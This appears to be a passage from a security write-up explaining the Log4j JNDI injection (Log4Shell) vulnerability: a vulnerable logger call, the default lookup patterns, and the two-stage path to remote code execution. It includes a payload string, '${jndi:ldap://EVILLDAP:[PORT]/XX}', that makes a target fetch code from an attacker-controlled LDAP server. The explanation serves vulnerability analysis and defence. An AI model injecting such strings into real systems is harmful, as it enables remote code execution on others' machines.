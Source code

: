 > logger.warn(username + " not found!");

If the username value is controlled by a malicious user it will be possible to exploit the vulnerability and even execute arbitrary code on the affected platform.

  

In particular, if an attacker is able to control the log message string, even partially, and he is able to inject the '**_${_**' and '_**}**_' metacharacters the Log4j Interpolator will parse the content and look for specific patterns.

  

According to the Interceptor class the following patterns are enabled by default:

> - log4j
> - sys 
> - env
> - main
> - marker
> - java
> - lower
> - upper
> - date
> - ctx
> - jndi (if org.apache.logging.log4j.core.lookup.JndiLookup is present)
> - web (if org.apache.logging.log4j.web.WebLookup is present)
> - docker 
> - spring
> - kubernetes

So, the real deal is about an attack that can be performed via JNDI:LDAP keyword (or similar patterns such as RMI, COS etc..). In fact by injecting something like:

> ${jndi:ldap://EVILLDAP:\[PORT\]/XX}

as argument in the sink method, Log4j will:

1. trigger a DNS request to check if the EVILLDAP hostname needs to be resolved
2. perform an LDAP request to the (attacker controlled) LDAP server hosted on the resolved IP
3. the attacker controlled LDAP server will then be able to reply with a malicious serialized Java object, which will be executed on the Log4j side.
4. if the malicious object, by abusing internal features (gadgets), is able to trigger the correct set of instruction, the vulnerability will be successfully exploited.

As can be noted, **this is a two stages attack,** in fact, after the vulnerability is triggered, the vulnerable application needs to send a request to the malicious server in order to get the RCE payload.

  

### **What's the Impact and How about the Risk? (****The Attack)**

The worst **impact** is the _Remote Code Execution_, which requires:

1. _the victim machine must be able to perform outbound requests_ 
2. _the attacker must be able to use the correct gadget chain to successfully perform the attack._
